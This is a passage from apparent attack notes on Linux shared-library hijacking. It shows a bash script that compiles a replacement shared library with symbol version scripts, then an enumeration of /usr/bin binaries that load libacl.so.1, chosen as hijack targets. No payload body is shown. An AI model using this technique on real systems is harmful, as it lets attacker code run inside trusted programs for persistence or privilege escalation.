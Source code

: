 ```bash

# Finalize the source file
echo "    return 0;" >> $SOURCE
echo "}" >> $SOURCE

# Clean up
rm $TMP_FILE

echo "Header file generated: $HEADER"
echo "Version scripts generated: $(ls ${VERSION_SCRIPT_BASE}_*.map)"

# Compile the shared library
echo "Compiling the shared library..."
gcc -fPIC -c $SOURCE -o mylib.o

# Create the shared library
map_files=$(ls ${VERSION_SCRIPT_BASE}_*.map 2>/dev/null)
if [[ -n $map_files ]]; then
    echo "Linking with version scripts: $map_files"
    gcc -shared -Wl,$(for map in $map_files; do echo -n "--version-script=$map,"; done | sed 's/,$//') -o $OUTPUT_LIB mylib.o
else
    gcc -shared -o $OUTPUT_LIB mylib.o
fi

# Clean up object file
rm mylib.o

echo "Shared library created: $OUTPUT_LIB"

```

#### Try and find a .so file to use to hijack an application other than top

-  enumerate `/lib/x86_64-linux-gnu/libacl.so.1`
```bash
bash search.sh /lib/x86_64-linux-gnu/libacl.so.1 /usr/bin
Searching for binaries that use /lib/x86_64-linux-gnu/libacl.so.1 in /usr/bin...
Found: /usr/bin/smbclient
Found: /usr/bin/systemd-resolve
Found: /usr/bin/net
Found: /usr/bin/systemd-analyze
Found: /usr/bin/systemd-cgtop
Found: /usr/bin/systemd-path
Found: /usr/bin/systemd-socket-activate
Found: /usr/bin/busctl
Found: /usr/bin/systemd-delta
Found: /usr/bin/vim.tiny
Found: /usr/bin/install
Found: /usr/bin/systemd-stdio-bridge
Found: /usr/bin/hostnamectl
Found: /usr/bin/systemd-cat
Found: /usr/bin/systemd-mount
Found: /usr/bin/rsync
Found: /usr/bin/systemd-run
Found: /usr/bin/systemd-detect-virt
Found: /usr/bin/systemd-cgls
Found: /usr/bin/localectl
Found: /usr/bin/timedatectl
Found: /usr/bin/bootctl
```
